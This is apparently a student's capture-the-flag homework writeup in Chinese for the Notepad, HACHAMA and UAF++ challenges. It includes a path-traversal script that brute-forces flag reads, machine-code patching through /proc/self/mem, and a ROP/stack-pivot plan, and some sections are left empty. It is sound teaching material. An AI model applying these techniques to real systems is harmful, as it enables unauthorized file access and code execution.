 # HW3 Writeup

- 學號：`109550206`

## Notepad-Stage1

- Flag：`flag{Sh3l1cod3_but_y0u_c@nnot_get_she!!}`

### 解題流程與思路
**解題過程：**
1. 看 source code 會發現，path 附近非常可疑，然後會發現 snprintf 會限制組成字串的長度，透過這個特性可以砍掉後綴的 '.txt'，然後還有一個前綴，這裡大膽猜測會是一個 '/' 結尾的路徑，因此只要有夠多的 '../' 就可回到跟目錄，接著調整 '../', './' 的無意義路徑數量，即可剛好砍掉 .txt，等於他會去開我們想開的任意檔案。
    ```cpp
    char path[128];
    //strcpy(path, res.res);
    snprintf(path, sizeof(path), "%s%s.txt",res.res, notename);
    //char rpath[128];
    //realpath(path, rpath);
    //puts(rpath);
    ```
2. 即可開出 /flag_user，暴力 try 一下，就會冒出來。詳見 stage1_col.py。
    ```python
    notename1 = b'../../../../../../flag_user'
    notename2 = b'../../../../../../../flag_user'

    for i in range(30, 100):
        rvalue = r.recvuntil(b'> ')
        print(rvalue.decode())
        # show note
        r.sendline(b'5')
        r.recvuntil(b'Note Name: ')
        r.sendline(b'./' * i + notename1)
        r.recvuntil(b'Offset: ')
        r.sendline(b'0')

        rvalue = r.recvuntil(b'> ')
        print(rvalue.decode())
        # show note
        r.sendline(b'5')
        r.recvuntil(b'Note Name: ')
        r.sendline(b'./' * i + notename2)
        r.recvuntil(b'Offset: ')
        r.sendline(b'0')
    ```

**取得 flag 的畫面：**
![Alt text](image/Notepad_Stage1_flag.png)

## Notepad-Stage2

- Flag：`flag{why_d0_y0u_KnoM_tH1s_c0WW@nd!?}`

### 解題流程與思路
**解題過程：**
1. 首先想到可以讀 /proc/self/maps 得知記憶體狀態，後來發現 /proc/mem 可以對記憶體進行寫入，且不會受限於 proc/self/maps 所呈現的權限問題，而是完整的記憶體都能寫。

2. 但是透過 edit note 成功改 text 後一直撞到 b'Segmentation fault\n'。想到最簡單的蓋法，就是將原本的 request code 改成 8787 後，再讀完後去 call write syscall 寫回來。
    ```python
    offset = 0x1606
    code = b'\xc7\x85\x40\xfe\xff\xff\x87\x87\x00\x00'
    editnote(mem_name, base+offset, code)

    offset = 0x16b9
    code = asm('''
    mov rsi, [rbp-0x110]
    mov rdi, 0x1
    mov rdx, 0x104
    mov rax, 0x1
    syscall
    ''')
    ```
3. 後來嘗試使用裡面原本有的 puts 來印，也是印不出來，但確實沒有印出 Login Success，再經過神奇的 offset 調整就出來了 (很後面才試到)。

4. 詳細嘗試見 stage2_sol.py。

**取得 flag 的畫面：**
![Alt text](image/Notepad_Stage2_flag.png)

## Notepad-Stage3

- Flag：``

### 解題流程與思路
**解題過程：**
1. 一些解 stage 2 時與 stage 3 應該比較相關的東西。
2. 透過 /proc/$pid/cmdline 可以得知該 /proc 的 執行時指令樣貌，稍加爆搜一 pid 可以找到執行 backend 相關的 binary 再透過 show note 可以將其 dump 下來。
3. 詳細嘗試見 stage2_sol.py。

**取得 flag 的畫面：**

## HACHAMA

- Flag：`'flag{https://www.youtube.com/watch?v=qbEdlmzQftE&list=PLQoA24ikdy_lqxvb6f70g1xTmj2u-G3NT&index=1}`

### 解題流程與思路
**解題過程：**
1. 一開始以為就很裸的 ROP 且，跑起來確實可以 leak 到資訊雖然能用的很短。但細看發現其實都 call 0x30 應該沒得 leak 才對，後來仔細去看才看懂，是在 name 輸入滿 20 個字元，於 cat 時會 overflow 蓋到 n2，因此實際是讀 ord('a')。

2. 接著透過 leak 的資訊可以輕易找到 main、__libc_main_start，這樣 base 都有了，於 libc 可以找到 call syscall 所需要的所有參數 pop rax, rdx, rdi, rsi, syscall。另外要確保 canary 的正確。

3. 可用範圍很小直覺想到是 stack pivot，一開始想於前面不能用的 0x38 先寫好 rop，再透過 rbp 指好 stack 使剛好其接在其前面，但這樣實際連續能用的也只有 0x38 + 0x18 - 0x8 (for read)，(0x8 rbp, 0x8 canary)，因為沒有 pop rdx ; ret 所以這個方案不可行。

4. 後想說那就接一長串再指過用，最後指過去跟上面一樣想法，只是會先往後多接幾次 0x38 再往前接，但過程中撞到多次不同狀況的 crash (蓋掉奇怪的東西)。

5. 後來發現 read 有一個神奇的地方可以跳，原本應該是沒有 pop rdx ; ret 可以用，但可以用 pop rax ; ret，再加上要跳 read 剛好是 0x18 夠用，接著就可以改 read 值，爆改一長串，就是一般的 rop 了。
    ```
        1454:       48 8b 05 25 2d 00 00    mov    rax,QWORD PTR [rip+0x2d25]        # 4180 <n2>
        145b:       48 89 c2                mov    rdx,rax
        145e:       48 8d 45 c0             lea    rax,[rbp-0x40]
        1462:       48 89 c6                mov    rsi,rax
        1465:       bf 00 00 00 00          mov    edi,0x0
        146a:       e8 f1 fc ff ff          call   1160 <read@plt>
    ```

**取得 flag 的畫面：**
![Alt text](image/HACHAMA_flag.png)

## UAF++

- Flag：``

### 解題流程與思路
**解題過程：**


**取得 flag 的畫面：**

